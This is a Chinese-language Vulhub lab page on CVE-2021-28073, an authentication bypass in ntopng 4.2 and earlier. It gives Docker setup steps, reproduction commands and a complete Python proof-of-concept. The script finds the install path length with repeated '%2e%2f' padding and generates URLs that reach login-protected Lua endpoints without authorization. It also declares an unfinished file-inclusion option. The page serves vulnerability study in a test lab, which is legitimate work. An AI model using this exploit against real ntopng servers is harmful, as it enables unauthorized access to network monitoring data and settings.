



ntopng权限绕过漏洞 CVE-2021-28073¶
漏洞描述¶
ntopng是监控服务器网络流量的工具，对外提供Web页面。其4.2及以前的版本中存在一处权限绕过漏洞，利用该漏洞可以未授权访问目标任意接口。
参考链接：
环境搭建¶
Vulhub执行如下命令启动ntopng：
docker-compose up -d
环境启动后，访问http://your-ip:3000将被跳转到登录页面，默认密码admin/admin，首次登录将会重设密码。
漏洞复现¶
根据参考链接中的方法，编写一个简单的poc.py。首先，计算出ntopng lua目录的长度：
python poc.py --url http://your-ip:3000/ baselength

可见，Vulhub靶场中的长度为36。
然后，找到我们想要越权访问的页面或接口，比如/lua/find_prefs.lua，正常访问时会302跳转到登录页面，无权限。
使用POC生成越权访问URL：
python poc.py --url http://your-ip:3000/ generate -l 36 -p find_prefs.lua

访问这个URL，发现可以越权返回正常信息：

后续更深入的利用方法，可以自行修改poc.py利用。
漏洞POC¶
import sys
import requests
import argparse
import logging
def is_ntopng() -> bool:
response = session.get(base_url, allow_redirects=False)
return response.status_code == 302 and '/lua/login.lua' in response.headers.get('Location', '')
def get_base_length() -> int:
for i in range(90, 120):
url = base_url + '/lua/' + '%2e%2f' * i + 'as_stats.lua.css'
response = session.get(url, allow_redirects=False)
if response.status_code < 300:
return 255 - 1 - i * 2 - len('as_stats.lua')
for i in range(90, 120):
url = base_url + '/lua/' + '%2e%2f' * i + 'get_macs_data.lua.css'
response = session.get(url, allow_redirects=False)
if response.status_code < 300:
return 255 - 1 - i * 2 - len('get_macs_data.lua')
return -1
def get_padding_length(path: str):
padding_length = 255 - 1 - base_length - len(path)
if padding_length % 2 == 1:
raise RuntimeError(f'path {path} is not support')
return int(padding_length / 2)
logging.basicConfig(stream=sys.stderr, level=logging.WARNING)
session = requests.Session()
session.headers['User-Agent'] = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36'
if __name__ == '__main__':
parser = argparse.ArgumentParser(description='CVE-2021-28073 POC for ntopng.')
parser.add_argument('-u', '--url', help='base url for ntopng, eg: http://192.168.1.233:3000', metavar='<URL>', required=True)
parser.add_argument('-v', '--verbose', default=False, action='store_true')
subparsers = parser.add_subparsers(dest='action')
baselength_command = subparsers.add_parser('baselength', help='get base path length of ntopng')
generate_command = subparsers.add_parser('generate', help='generate the authenticate bypass url')
generate_command.add_argument('-l', '--length', type=int, help='base path length of target ntopng', metavar='<LENGTH>', required=True)
generate_command.add_argument('-p', '--path', help='lua pathname', metavar='<PATH>', required=True)
generate_command = subparsers.add_parser('include', help='generate the arbitrary file inclusion url')
generate_command.add_argument('-l', '--length', type=int, help='base path length of target ntopng', metavar='<LENGTH>', required=True)
generate_command.add_argument('-i', '--include', help='path to include', metavar='<PATH>', required=True)
args = parser.parse_args()
if not args.action:
parser.print_help()
sys.exit(1)
if args.verbose:
logging.basicConfig(stream=sys.stderr, level=logging.DEBUG)
base_url = args.url.rstrip('/')
# check target
if not is_ntopng():
raise RuntimeError('No Ntopng detected')
if args.action == 'baselength':
base_length = get_base_length()
sys.stdout.write(f'ntopng install path length: {base_length}\n')
elif args.action == 'generate':
base_length = args.length
path = args.path
sys.stdout.write(base_url + '/lua/' + '%2e%2f' * get_padding_length(path) + path + '.css\n')